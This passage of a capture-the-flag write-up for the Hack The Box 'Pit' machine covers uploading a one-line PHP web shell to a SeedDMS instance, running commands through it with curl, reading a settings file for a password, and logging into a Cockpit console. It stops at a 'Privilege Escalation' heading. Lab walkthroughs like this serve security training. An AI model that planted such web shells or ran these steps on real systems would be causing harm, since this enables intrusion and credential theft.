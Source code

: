 ![pit](https://paincakes.sirv.com/Images/HTB/Pit/add%20document.png)

We can try uploading the basic php web reverse shell, `<?php system($_REQUEST["cmd"]); ?>`

I uploaded the php file containing the payload as `Shellkekw`.

![pit](https://paincakes.sirv.com/Images/HTB/Pit/uploaded.png)

We can see our document’s id from the URL, which in my case was 31. Now we can use Curl to remotely execute the command,

`curl http://dms-pit.htb/seeddms51x/data/1048576/31/1.php?cmd=id`

![pit](https://paincakes.sirv.com/Images/HTB/Pit/curl.png)

I tried lots of reverse shell payloads for getting remote connection to the remote machine, but it all failed and after analyzing and researching on the error on permissions, it was due to the SELinux configuration. More about SElinux impacting the file [here](https://serverfault.com/questions/778407/linux-file-permission-got-a-ending-dot-and-webserver-denied-access).

*Note: The document uploaded will be deleted every 5 minutes, so we need to upload it again and the id will increase by 1.*

We can intercept the `curl` request with `burpsuite`, In the reponse intercepted by burpsuite we can see the result of the command execution on the remote host.

`curl http://dms-pit.htb/seeddms51x/data/1048576/31/1.php?cmd=id -x localhost:8080`

![pit](https://paincakes.sirv.com/Images/HTB/Pit/burpp.png)

Enumerating directories to find useful information in files/folder.

![pit](https://paincakes.sirv.com/Images/HTB/Pit/burpp2.png)

In the “conf” folder I found the file “setiings.xml” which contained the password of some user. `cmd = cat ../../../conf/settings.xml`

![pit](https://paincakes.sirv.com/Images/HTB/Pit/burpp5.png)

## Cockpit Instance

With the password found in the “settings.xml” file I tried it using as for ssh service with michelle, but it didn’t work but, it worked when logging in to the CentOS login page which was being hosted on port 9090 and we could access the web console of “michelle” user in the remote machine, which is also known as cockpit instance.

![pit](https://paincakes.sirv.com/Images/HTB/Pit/cockpit.png)

And after accessing the terminal we could find the user flag for this machine.

![pit](https://paincakes.sirv.com/Images/HTB/Pit/users%20flag.png)

## Privilege Escalation
